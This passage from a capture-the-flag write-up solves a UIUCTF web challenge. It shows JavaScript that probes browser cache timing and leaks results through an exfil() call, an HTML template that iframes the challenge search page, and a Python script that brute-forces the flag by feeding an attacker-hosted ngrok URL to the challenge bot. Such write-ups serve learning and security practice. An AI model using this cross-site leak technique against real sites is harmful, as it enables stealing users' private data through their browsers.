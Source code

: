 ```javascript
                    {
                        exfil(true, duration);
                    }
                    else
                    {
                        exfil(false, duration);
                    }
                }
            };
        
            xhr.send();
        }
        
        check_cached(xhr, "https://sigpwny.com/uiuctf/y.png");
    }, 500);
}
```

We then prepare a `template.html` with a placeholder for the search query.

```markup
<script src="exploit.js"></script>
<iframe src="https://chal.yana.wtf/#{}" id="iframe" onload="onFrameLoad(this)"></iframe>
```

Then, an `exploit.py` script can automate the bruteforce attack.

```python
from pwn import *
import string

URL = 'http://964fb36503ae.ngrok.io/exploit.html'
FLAG = 'uiuctf{'

for char in string.ascii_lowercase + string.digits + '{}_':
    print(char)
    with open('template.html', 'r') as infile, open('exploit.html', 'w') as outfile:
        outfile.write(infile.read().format(FLAG + char))
    
    conn = remote('yana-bot.chal.uiuc.tf', 1337)
    conn.recv()
    conn.send(URL + '\r\n')

```

We will have to run this script for each new character, adding the previously found ones to the `FLAG` variable. (Perhaps I should have wrote a cleaner solution?)
